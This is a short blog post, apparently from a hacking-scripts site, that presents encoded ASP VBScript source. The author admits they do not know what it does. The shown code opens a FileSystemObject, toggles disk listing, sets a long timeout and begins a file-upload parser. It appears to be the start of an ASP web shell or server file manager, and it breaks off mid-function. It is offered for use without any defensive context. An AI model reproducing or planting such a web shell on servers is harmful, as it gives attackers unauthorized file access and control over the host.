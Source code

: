 ```yaml
---
id: 79
title: VB Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=79
permalink: /vb-script/
categories:
  - VB
tags:
  - VB
---
```

I have no idea what this Visual Basic script does, and haven&#8217;t tried running it yet either.

### VB Script Source Code

<pre class="brush: vb; title: ; notranslate" title="">&lt;%@ LANGUAGE = VBScript.Encode%&gt;
&lt;%//**Start Encode
On Error Resume Next
Dim myFSO,showdisks
Set myFSO = CreateObject ("Scripting.FileSystemObject")
showdisks=FALSE
Server.ScriptTimeOut  = 7200
Class FileUploader
    Public  Files
    Private mcolFormElem
    Private Sub Class_Initialize()
        Set Files = Server.CreateObject("Scripting.Dictionary")
        Set mcolFormElem = Server.CreateObject("Scripting.Dictionary")
    End Sub
    Private Sub Class_Terminate()
        If IsObject(Files) Then
            Files.RemoveAll()
            Set Files = Nothing
        End If
        If IsObject(mcolFormElem) Then
            mcolFormElem.RemoveAll()
            Set mcolFormElem = Nothing
        End If
    End Sub
    Public Property Get Form(sIndex)
        Form = ""
        If mcolFormElem.Exists(LCase(sIndex)) Then Form = mcolFormElem.Item(LCase(sIndex))
    End Property
    Public Default Sub Upload()
        Dim biData, sInputName
        Dim nPosBegin, nPosEnd, nPos, vDataBounds, nDataBoundPos
        Dim nPosFile, nPosBound
        biData = Request.BinaryRead(Request.TotalBytes)
        nPosBegin = 1
        nPosEnd = InstrB(nPosBegin, biData, CByteString(Chr(13)))
        If (nPosEnd-nPosBegin) &lt;= 0 Then Exit Sub
        vDataBounds = MidB(biData, nPosBegin, nPosEnd-nPosBegin)
        nDataBoundPos = InstrB(1, biData, vDataBounds)
        Do Until nDataBoundPos = InstrB(biData, vDataBounds & CByteString("--"))
            nPos = InstrB(nDataBoundPos, biData, CByteString("Content-Disposition"))
            nPos = InstrB(nPos, biData, CByteString("name="))
            nPosBegin = nPos + 6
            nPosEnd = InstrB(nPosBegin, biData, CByteString(Chr(34)))
            sInputName = CWideString(MidB(biData, nPosBegin, nPosEnd-nPosBegin))
            nPosFile = InstrB(nDataBoundPos, biData, CByteString("filename="))
            nPosBound = InstrB(nPosEnd, biData, vDataBounds)